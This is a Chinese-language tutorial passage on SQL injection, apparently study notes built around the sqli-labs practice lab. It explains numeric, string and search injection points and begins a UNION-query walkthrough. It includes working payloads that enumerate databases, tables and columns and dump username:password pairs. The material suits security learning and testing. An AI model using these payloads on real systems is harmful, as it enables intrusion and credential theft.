 ```php
select * from 表名 where id=1 and 1=1
#数字型驻点常见的注入语句(Payload)
#查询数据库名和版本
id=-1 union select 1,database(),version() --+
#查询指定数据库中的表名
id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=‘security’) --+
#查询指定数据库中指定表名中的列名字段
id=-1 union select 1,database(),(select group_concat(column_name) from information_schema.columns where table_schema=‘security’ and table_name=‘users’) --+
#查询指定表中的数据
id=-1 union select 1,database(),(select group_concat(username,‘:’,password) from secyrity.users) --+
```

### 字符型注入点
类似结构 [http://xxx.com/users.php?name=admin](http://xxx.com/users.php?name=admin) 这种形式，其注入点 name 类型为字符类型，所以叫字符型注入点。这一类的 SQL 语句原型大概为 "select * from 表名 where name='admin'" 值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

```php
select * from 表名 where name=‘admin’ and 1=1 ‘’
#字符型常见的注入语句(Payload)
#后台语句 - SELECT * FROM users WHERE id=(‘$id’) LIMIT 0,1
id=-1') union select 1,database(),version() --+
id=-2") union select 1,2,3–+
```

### 搜索型注入点
这是一类特殊的注入类型。这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有 keyword=关键字 ，有的不显示在的链接地址里面，而是直接通过搜索框表单提交。此类注入点提交的 SQL 语句，其原形大致为：select * from 表名 where 字段 like '%关键字%' 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

```php
select * from 表名 where 字段 like ‘%测试%’ and ‘%1%’=‘%1%’
```

## SQL注入常见的几种注入方法
### 联合查询(union注入)
联合查询适合于有显示位的注入，即页面某个位置会根据我们输入的数据的变化而变化

简单来说就是 <font style="color:rgb(77, 77, 77);">有注入点，且数据有回显，那就可以用联合查询注入</font>

<font style="color:rgb(77, 77, 77);">以sqli-labs第一关为例来简述联合查询注入的使用</font>

<font style="color:rgb(77, 77, 77);">如下，要求我们传入一个id值过去。传参?id=1，当我们输入id=1和id=2时，页面中name值和password的值是不一样的，说明此时我们输入的数据和数据库有交互并且将数据显示在屏幕上了</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018103160-fe63bb68-3546-43a5-82a8-baf7b1ab0ccf.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732018120734-c4215b1d-8e6c-4e87-bd2b-e93ba45a8f17.png)

#### <font style="color:rgb(77, 77, 77);">1.注入点判断</font>
<font style="color:rgb(77, 77, 77);">开始判断是否存在注入，输入?id=1'，页面发生报错，说明后端对我前端的数据输入没有很好的过滤，产生了sql注入漏洞</font>
